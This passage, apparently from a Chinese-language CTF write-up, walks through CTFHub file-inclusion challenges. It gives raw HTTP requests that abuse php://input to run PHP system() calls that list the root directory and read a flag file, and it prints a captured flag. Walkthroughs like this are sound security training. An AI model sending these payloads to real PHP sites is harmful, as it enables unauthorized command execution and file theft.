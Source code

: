 改成post包，发送请求

```
POST /?file=php://input HTTP/1.1
Host: challenge-39f23084ae74e66d.sandbox.ctfhub.com:10800
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 26

<?php system('ls /'); ?>
```

![image-20221124115348824](https://img.gyxnb.top/img/image-20221124115348824.png)

```php
<?php system('cat /flag_25234'); ?>
```

ctfhub{9c76898e6c38a9151c167a32}



### 远程文件包含

`?file=php://input`

http://challenge-62e25535b4e2cd95.sandbox.ctfhub.com:10800/?file=php://input

抓包

```
GET /?file=php://input HTTP/1.1
Host: challenge-62e25535b4e2cd95.sandbox.ctfhub.com:10800
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

同样改成post包

`<?php system('ls /'); ?>`

```
POST /?file=php://input HTTP/1.1
Host: challenge-62e25535b4e2cd95.sandbox.ctfhub.com:10800
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?php system('ls /'); ?>
```
